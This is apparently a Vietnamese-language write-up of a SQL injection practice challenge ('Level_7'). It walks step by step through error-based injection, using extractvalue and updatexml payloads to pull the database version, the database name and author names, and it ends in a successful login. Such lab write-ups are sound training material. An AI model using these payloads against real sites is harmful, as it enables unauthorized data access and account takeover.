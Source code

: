 # <div align="center"><p> SQL-Injection/Level_7</p></div>
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là màn hình chính của trang web level_7. Trang web cho chúng ta biết thêm thông tin đó là tên table `level7_news` và cột là `autor`.

  ![image](https://user-images.githubusercontent.com/101852647/166922826-3e7e477b-7dfc-4333-9455-9df038682065.png)
  
- B2: Bắt đầu nhập thử `1` ta thấy trang web trả về cho chúng ta trang thông tin .

  ![image](https://user-images.githubusercontent.com/101852647/166923381-2f39c5cb-359b-4c5b-90b4-9226dd0dd284.png)

- B3: Ta thử chèn thêm dấu ' thì trang web trả về lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/166923474-9c01ee61-b909-41d0-b0ad-3bda97480a3c.png)

- B4: Tiếp tục ta thử chèn câu lệnh `1%') union slect 1,2 from level7_news#` Nhưng trả web trả về thông báo có thứ gì đó không ổn.

  ![image](https://user-images.githubusercontent.com/101852647/167061461-1abbd29e-9e97-43ea-9898-0d9769926480.png)

- B5: Ta sẽ dựa trên ERROR BASE để khai thác thử dùng câu lệnh `1%') union select extractvalue(0x0a,concat(0x0a,(select version()))) or ('%1` để tìm được phiên bản của nó.

  ![image](https://user-images.githubusercontent.com/101852647/167061631-5dfed4d3-7c95-43fe-8d1a-57db03df1f24.png)

- B6: Sử dụng câu lệnh `1%') union select extractvalue(0x0a,concat(0x0a,(select database()))) or ('%1` để tìm tên database. Kết quả trả tên database về `hackit`

  ![image](https://user-images.githubusercontent.com/101852647/167061873-f92ca2bc-190d-4622-b5c2-a5503e14af95.png)

- B7: Ta có thể dùng updatexml hoặc extractvalue để khai thác đều được nên ở đây tôi đã thử sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 0)),null) or ('%1` để khai thác. Kết quả trả về ` site_admin`.

  ![image](https://user-images.githubusercontent.com/101852647/167062167-f0663de1-5f21-4df9-b22c-7ff7a2eabd67.png)

- B8: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 1)),null) or ('%1`. Kết quả trả về `press`.

  ![image](https://user-images.githubusercontent.com/101852647/167062215-6fb8d0e1-383a-4191-9c16-b2203bbf2bf6.png)

- B9: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 2)),null) or ('%1`. Kết quả trả về `TestUserforg00gle`

  ![image](https://user-images.githubusercontent.com/101852647/167062267-1264c299-a976-458a-9ee9-ca45240dfdfe.png)

- B10: sử dụng câu lệnh `1%') union select updatexml(null,concat(0x3a,(select autor from level7_news limit  1 OFFSET 3)),null) or ('%1`. Kết quả trả về `apple`.

  ![image](https://user-images.githubusercontent.com/101852647/167062329-1aea7534-705e-4151-a7a9-461e29af598c.png)
  
- B11: Ta sẽ thử lần lượt với các kết quả và nhận thấy rằng kết quả `TestUserforg00gle` đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167062438-9ae9847e-4c2c-416a-8a0e-6d9a9ae0fa9d.png)

